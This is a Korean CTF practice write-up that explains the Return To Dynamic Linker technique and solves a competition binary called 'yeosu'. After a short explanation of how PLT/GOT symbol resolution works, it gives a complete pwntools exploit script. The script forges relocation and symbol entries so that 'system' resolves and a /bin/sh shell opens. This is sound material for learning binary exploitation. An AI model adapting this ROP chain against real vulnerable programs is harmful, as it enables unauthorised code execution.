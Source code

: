 ```yaml
---
layout: post
title: RTDL(Return To Dynamic Linker) 연습
author: hOwDayS
---
```




<h3>이 글은 사전 plt , got 이 어떤 원리로 되는지 알아야 합니다.</h3>

*https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/*

<br>

RTDL 를 연습하기 위해 사이버가디언즈 5차때의 문제를 가져왓습니다~~

<br>

<br>

현장에서 풀때는 ssh로 접속하고 aslr도 안되어 있는 환경이어서 시스템주소 구하고 RET에 넣으면 되는 간단한 문제입니다.

__하지만__ 로컬에서는 RTDL 즉 __Return To Dynamic Linker__ 를 이용해야 합니다.

<br>

그래서 RTDL 연습할 겸 기법을 이용해 풀어보겠습니다

<br>

<br>

![image](../img/2018-11-19-yeosu/1.png)

<br>

<br>

​    Arch:     i386-32-little

​    RELRO:    Partial RELRO

​    Stack:    No canary found

​    NX:       NX enabled

​    PIE:      No PIE (0x8048000)

<br>

<br>

바이너리는 간단합니다. 입력 받고 끝입니다.

RTDL은 FAKE_ELF32_SYMBOL 과 DYNSTR , DYNSYM , JMPREL , RELOC_OFFSET를 이용해야 합니다.

<br>

간단하게 설명하자면

![image](../img/2018-11-19-yeosu/2.png)

<br>

위 사진에 보이는 read@plt에서 push 하는 값이 RELOC_OFFSET 입니다.

![image](../img/2018-11-19-yeosu/3.png)

<br>

이 RELOC_OFFSET를 이용해서 해당 read@plt의 JMPREL를 계산하고 

또 이걸 이용해서 밑 사진처럼 ELF32_SYMBOL에 있는  함수 이름 문자열을 찾습니다.

 ![image](../img/2018-11-19-yeosu/4.png)

<br>

마지막으로 이 함수 이름을 통해서 라이브러리에서 함수를 불러오고 read@got에 

저장하는 원리입니다.

<br>

<h4>여기서!!</h4>

RTDL은 이부분을 주작하는 겁니다. 

함수이름을 통해 함수를 불러온다고 햇습니다. 그럼 system 문자열을 전송하게 되면!!

system함수가 불려지겟죠?! (grin)

<br>

yeosu 익스플로잇 코드

```python
from pwn import *

p = process("./yeosu")
#p = remote("localhost",8888)
e = ELF("./yeosu")

main = 0x804847B
pr = 0x0804851b
ppr = 0x0804851a
pppr = 0x08048519

dynstr = 0x0804823c
dynsym  = 0x080481cc
dynamic = 0x08048320
jmprel = 0x80482d0

fake_sym = e.bss()+24

fake_ELF32_SYM_addr = e.bss()+80 -  dynstr

string = "system\x00"

#fake reloc offset
rel_addr = e.bss()+100
reloc_offset = rel_addr - jmprel 

#fake geteuid ELF 32_REL
fake_relst  = p32(e.got["geteuid"])
fake_relst += p32(0x1e707) #fake_sym - dynsym 

#fake ELF32_SYM
fake_ELF32_SYM = p32(fake_ELF32_SYM_addr)

#exploit


binsh = "A"*0x26
binsh += p32(e.plt["read"])
binsh += p32(pppr)
binsh += p32(0)
binsh += p32(e.bss()+1000)
binsh += p32(0x100)
binsh += p32(main)


#symtab
payload = "A"*0x26
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(fake_sym)
payload += p32(0x100)


#system
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.bss()+80)
payload += p32(0x100)
payload += p32(main)

payload2 = "A"*0x26

payload2 += p32(e.plt["read"])
payload2 += p32(pppr)
payload2 += p32(0)
payload2 += p32(rel_addr)
payload2 += p32(0x100)

payload2 += p32(dynamic)
payload2 += p32(reloc_offset)
payload2 += p32(main)
payload2 += p32(e.bss()+1000)

assert(len(payload)<=0x64)
assert(len(payload2)<=0x64)

#raw_input()
p.send(binsh)
sleep(0.3)
p.send("/bin/sh\x00")
sleep(0.3)
p.send(payload)
sleep(0.3)
p.send(fake_ELF32_SYM)
sleep(0.3)
p.send("system\x00")
sleep(0.3)
p.sendline(payload2)
sleep(0.3)
p.sendline(fake_relst)

p.interactive()
```

